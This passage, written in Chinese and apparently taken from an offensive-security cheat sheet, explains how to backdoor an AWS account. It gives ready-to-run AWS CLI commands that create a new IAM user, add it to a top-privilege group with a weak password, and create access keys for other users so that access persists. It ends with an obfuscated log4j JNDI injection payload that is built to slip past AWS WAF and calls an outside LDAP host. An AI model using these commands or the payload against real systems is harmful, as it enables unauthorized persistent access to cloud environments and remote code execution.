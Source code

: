 #### 新用户
	对云环境进行后门的最简单方法之一是创建一个对该环境具有完全访问权限的新用户。 使用“aws iam create-user --user-name MyUser”命令创建新用户。
	一旦你创建了这个用户，你应该把他们放在一个拥有最高权限的组中。 要将用户添加到组中，您可以使用以下命令：
	> aws iam add-user-to-group --user-name MyUser --group-name MyIamGroup
	最后使用以下命令为用户添加密码：
	> aws iam create-login-profile --user-name MyUser --password password@123.
#### 访问密钥
	如果用户更改了密码，您将无法再访问该用户。
	但是，用户拥有的任何访问密钥仍然有效。 如果您拥有正确的权限，则可以通过为其他用户创建和下载访问密钥来后门。 这可以通过以下命令完成。
	> aws iam create-access-key --user-name MyUser
	现在您有了访问密钥，您可以将其与 AWS cli 一起使用，以该用户身份与云环境进行交互。
### 绕过AWS WAF进行log4j jndi注入
	${j${k8s:k5:-ND}i${sd:k5:-:}ldap://mydogsbutt.com:1389/o}